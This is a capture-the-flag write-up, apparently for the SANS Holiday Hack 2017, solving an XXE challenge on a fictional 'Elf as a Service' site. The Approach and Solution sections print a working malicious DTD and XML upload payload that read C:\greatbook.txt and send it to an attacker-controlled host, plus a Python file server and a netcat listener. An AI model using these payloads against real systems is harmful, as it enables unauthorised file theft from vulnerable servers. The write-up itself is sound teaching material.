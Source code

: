 * Question
   :PROPERTIES:
   :CUSTOM_ID: q6_question
   :END:

The North Pole engineering team has introduced an Elf as a Service
(EaaS) platform to optimize resource allocation for mission-critical
Christmas engineering projects at
http://eaas.northpolechristmastown.com. Visit the system and retrieve
instructions for accessing The Great Book page from C:\greatbook.txt.
Then retrieve The Great Book PDF file by following those directions.
What is the title of The Great Book page?

/For hints on this challenge, please consult with Sugarplum Mary in the North Pole and Beyond./

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q6_background-information
   :END:

** Hints:

 #+begin_hint
 The Elf As A Service (EAAS) site is a new service we're experimenting with in the North Pole. Previously, if you needed a special engineer for toy production, you would have to write a memo and distribute it to several people for approval. All of that process is automated now, allowing production teams to request assistance through the EAAS site.
 #+end_hint

 #+begin_hint
 The EAAS site uses XML data to manage requests from other teams. There is a sample request layout available that you can download. Teams just customize the XML and submit!
 #+end_hint

 #+begin_hint
 I think some of the elves got a little lazy toward the go-live date for EAAS. The sample XML data doesn't even include a DTD reference.
 #+end_hint

 #+begin_hint
 XML processing can be complex. I saw an interesting article recently on the [[https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities][dangers of external XML entities]].
 #+end_hint

** Blog Posts:

This post is called out in the hints:

 Exploiting XXE Vulnerabilities in IIS.NET
 https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities

To pull off this attack, we'll need to host a file somewhere that the EaaS system can reach. We can either host it on l2s, in which case we'll use this blog post for creating a file on that system, which is locked down with =rbash=:

 A Spot of Tee
 https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee

Alternatively, we could spin up an AWS VM using the instructions in this blog post:

 Putting My Zero Cents In: Using the Free Tier on Amazon Web Services (EC2)
 https://pen-testing.sans.org/blog/2017/12/10/putting-my-zero-cents-in-using-the-free-tier-on-amazon-web-services-ec2

The hints are all pretty strongly pointing us towards an {{{abbr(XML External Entity, XXE)}}} vulnerability.

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q6_goal
   :END:

We want to access C:\greatbook.txt, and then follow those instructions to retrieve a page of the Great Book.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q6_approach
   :END:

We'll start with just pulling up the site in a browser:

#+CAPTION: EaaS Home
#+attr_html: :width 350px
[[./images/eaas_home.png]]

Poking around the site a bit, we see that it provides four functions:

1. We can view our current Elf order at http://eaas.northpolechristmastown.com/Home/DisplayXML,
2. On that same page, we can make a change to our order by uploading a file,
3. We can reset the XML file here: http://eaas.northpolechristmastown.com/Home/CreateElfs,
4. We can download the XML file here: http://eaas.northpolechristmastown.com/XMLFile/Elfdata.xml

All this XML talk lines up pretty well with the blog post and the hints. Let's see if the EaaS site is vulnerable to {{{abbr(XML External Entity, XXE)}}}.

Following along with the blog post, we'll create a malicious
{{{abbr(Data Type Definition, DTD)}}} file, borrowing liberally from the SANS post:

#+CAPTION: The DTD File
#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

If we can get the XML parser to use this {{{abbr(Data Type Definition, DTD)}}} 
file, it will read our target text file, then send it to a system that
we control. This file doesn't help the parser know how to parse our
XML, but we don't really care if it gets parsed correctly or not.

In order to have the XML parser load this {{{abbr(Data Type Definition, DTD)}}} file, we'll use the XML example in the blog post:

#+begin_note
This example in the blog post had a typo, where the last character was a =<= instead of a =>=.
#+end_note

#+CAPTION: The XML File
#+BEGIN_SRC xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://10.142.0.11:8271/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
>
#+END_SRC

This will load our evil.dtd file, then instantiate the necessary
entities. To finish off the attack, we'll need two HTTP services
running. The first will need to serve the evil.dtd file. Python's
=SimpleHTTPServer= is the easiest way to do this, and in fact, that's
provided on l2s. We'll create our file, with tee, then start a
server. Ports 8080 and 4444 are very contentious on l2s, so we'll use
non-standard ones instead:

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.EtweHkIXQZGuoo51RBy2FSyA$ cat | tee evil.dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://1.2.3.4:8272/?%stolendata;'>">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://1.2.3.4:8272/?%stolendata;'>">
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.EtweHkIXQZGuoo51RBy2FSyA$ python -m SimpleHTTPServer 8271
Serving HTTP on 0.0.0.0 port 8271 ...
#+END_SRC

In another terminal, we'll start up a =netcat= listener, to capture the response:

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.sHkbOWKtpdnH8SGpCM2VAMgL$ nc -l -p 8272
#+END_SRC

With these services in place, we're ready to upload our malicious XML file. Using a web browser, we'll upload our XML file, and then see what happens.

#+BEGIN_SRC 
Serving HTTP on 0.0.0.0 port 8271 ...
10.142.0.13 - - [10/Jan/2018 22:26:43] "GET /evil.dtd HTTP/1.1" 200 -
#+END_SRC

Great, our DTD file was loaded! And checking our =netcat= instance:

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.sHkbOWKtpdnH8SGpCM2VAMgL$ nc -l -p 8272
#+END_SRC

...nothing. That's disappointing. We've already noticed one typo in
the blog. Could it be possible that there was another error? Taking a
close look at the image on the page, we notice that part of the DTD
file is escaped differently from how the example shows up on the
webpage:

#+CAPTION: DTD File
#+attr_html: :width 350px
[[./images/eaas_dtd.png]]

We'll update our DTD file, so that the percent sign before ~sendit~ is escaped:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

We'll upload our file one more time, and...

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.yNLdj0xcg7AZi5v1gYns2lFO$ nc -l -p 8272
GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1
Host: 10.142.0.11:8272
Connection: Keep-Alive
#+END_SRC

Success! In the =GET= request, the text after =?= is the contents of C:\greatbook.txt. If we pull up that URL, we get GreatBookPage6.pdf.

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q6_solution
   :END:

We upload this XML file:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://10.142.0.11:8271/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
>
#+END_SRC

And this is our DTD:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

When we upload our XML file, we receive the contents of the target file, and can then download the PDF.

* Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: q6_common-pitfalls
   :END:

This followed closely to the SANS blog post, but there was a typo and an HTML rendering issue with some of the provided code that caused some headaches.
